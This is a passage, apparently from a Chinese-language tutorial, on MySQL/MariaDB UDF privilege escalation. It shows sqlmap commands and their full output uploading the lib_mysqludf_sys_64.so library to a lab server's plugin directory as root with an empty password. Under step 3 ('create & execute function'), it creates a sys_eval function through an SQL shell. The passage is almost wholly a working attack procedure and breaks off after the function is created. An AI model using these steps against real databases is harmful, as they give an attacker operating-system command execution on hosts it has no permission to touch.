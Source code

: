    ```
   python3 sqlmap.py -d "mysql://root:@172.20.10.9:3306/mysql" --file-write=/Users/simon/Downloads/lib_mysqludf_sys_64.so --file-dest=/usr/lib/x86_64-linux-gnu/mariadb18/plugin/lib_mysqludf_sys_64.so
           ___
          __H__
    ___ ___[.]_____ ___ ___  {1.4.2.24#dev}
   |_ -| . ["]     | .'| . |
   |___|_  [(]_|_|_|__,|  _|
         |_|V...       |_|   http://sqlmap.org
   
   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
   
   [*] starting @ 13:28:35 /2020-02-10/
   
   [13:28:36] [INFO] connection to MySQL server '172.20.10.9:3306' established
   [13:28:36] [INFO] testing MySQL
   [13:28:36] [INFO] resumed: [['1']]...
   [13:28:36] [INFO] confirming MySQL
   [13:28:36] [INFO] resumed: [['1']]...
   [13:28:36] [INFO] the back-end DBMS is MySQL
   back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
   [13:28:36] [INFO] fingerprinting the back-end DBMS operating system
   [13:28:36] [INFO] resumed: [['0']]...
   [13:28:36] [INFO] the back-end DBMS operating system is Linux
   do you want confirmation that the local file '/Users/simon/Downloads/lib_mysqludf_sys_64.so' has been successfully written on the back-end DBMS file system ('/usr/lib/x86_64-linux-gnu/mariadb18/plugin/lib_mysqludf_sys_64.so')? [Y/n]
   
   [13:28:42] [INFO] the local file '/Users/simon/Downloads/lib_mysqludf_sys_64.so' and the remote file '/usr/lib/x86_64-linux-gnu/mariadb18/plugin/lib_mysqludf_sys_64.so' have the same size (8040 B)
   [13:28:42] [INFO] connection to MySQL server '172.20.10.9:3306' closed
   
   [*] ending @ 13:28:42 /2020-02-10/
   ```

3. 创建&执行函数

   ```
   python3 sqlmap.py -d "mysql://root:@172.20.10.9:3306/mysql" --sql-shell
           ___
          __H__
    ___ ___[,]_____ ___ ___  {1.4.2.24#dev}
   |_ -| . [)]     | .'| . |
   |___|_  [)]_|_|_|__,|  _|
         |_|V...       |_|   http://sqlmap.org
   
   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
   
   [*] starting @ 13:32:23 /2020-02-10/
   
   [13:32:23] [INFO] connection to MySQL server '172.20.10.9:3306' established
   [13:32:23] [INFO] testing MySQL
   [13:32:23] [INFO] resumed: [['1']]...
   [13:32:23] [INFO] confirming MySQL
   [13:32:23] [INFO] resumed: [['1']]...
   [13:32:23] [INFO] the back-end DBMS is MySQL
   back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
   [13:32:23] [INFO] calling MySQL shell. To quit type 'x' or 'q' and press ENTER
   sql-shell> create function sys_eval returns string soname 'lib_mysqludf_sys_64.so'
   [13:34:56] [INFO] executing SQL data definition statement: 'create function sys_eval returns string soname 'lib_mysqludf_sys_64.so''
   ```